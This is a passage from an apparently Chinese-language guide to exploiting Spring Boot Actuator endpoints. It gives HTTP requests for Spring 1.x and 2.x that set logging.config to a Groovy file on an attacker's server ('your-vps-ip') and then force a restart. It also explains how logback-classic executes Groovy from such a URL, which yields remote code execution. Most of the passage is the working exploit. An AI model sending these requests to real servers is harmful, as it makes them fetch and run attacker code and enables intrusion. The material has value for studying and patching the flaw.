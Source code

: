 ##### 步骤二：设置 logging.config 属性

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

logging.config=http://your-vps-ip/example.groovy


```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"logging.config","value":"http://your-vps-ip/example.groovy"}


```

##### 步骤三：重启应用

spring 1.x

```
POST /restart
Content-Type: application/x-www-form-urlencoded



```

spring 2.x

```
POST /actuator/restart
Content-Type: application/json



```

#### 漏洞原理：

1.  目标机器通过 logging.config 属性设置 logback 日志配置文件 URL 地址
    
2.  restart 重启应用后，程序会请求设置的 URL 地址
    
3.  `logback-classic` 组件的 `ch.qos.logback.classic.util.ContextInitializer.java` 代码文件逻辑中会判断 url 是否以 `groovy` 结尾
    
4.  如果 url 以 `groovy` 结尾，则最终会执行文件内容中的 groovy 代码，造成 RCE 漏洞
    

#### 漏洞环境：
